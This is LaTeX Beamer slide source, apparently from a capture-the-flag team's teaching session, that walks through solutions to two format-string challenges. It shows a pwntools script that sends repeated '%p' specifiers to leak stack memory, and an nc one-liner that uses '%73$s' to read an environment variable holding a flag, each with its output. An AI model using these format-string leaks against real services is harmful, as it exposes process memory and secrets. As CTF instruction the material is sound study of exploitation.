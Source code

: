 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{fmtstr, 1. flag}

    First flag is in a buffer on the stack:
    \begin{lstlisting}[style=customc]
// Put the first flag on the stack
if(getenv("FLAG1")){
    strncpy(flag1, getenv("FLAG1"), sizeof(flag1));
}
    \end{lstlisting}

    \pause

    Solution:
    \begin{lstlisting}[style=custompy]
from pwn import *
context(arch="amd64", word_size=64)

r = remote("ctf.pwnies.dk", 31337)
r.sendline("%p,"*10)
data = r.clean().strip().replace("(nil)", "0").split(",")
data = flat([int(w.strip(), 16) for w in data if w.strip()])
log.info("Flag: \"%s\"", data[24:].strip("\00"))
    \end{lstlisting}

    \begin{lstlisting}[style=customconsole]
$ python doit-fmtstr-1.py 
[+] Opening connection to ctf.pwnies.dk on port 31337: Done
[*] Flag: "FLAG{Okay! So you can leak from the stack}"
[*] Closed connection to ctf.pwnies.dk port 31337
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{fmtstr, 2. flag}
    \begin{lstlisting}[style=customc]
// So where is this flag?
flag2_ptr = getenv("FLAG2");
    \end{lstlisting}
    
    \pause

    Solution:

    \begin{lstlisting}[style=customconsole]
$ echo "%73\$s" | nc ctf.pwnies.dk 31337
FLAG2=FLAG{GOOD! You can even follow pointers}
    \end{lstlisting}
\end{frame}
\end{document}
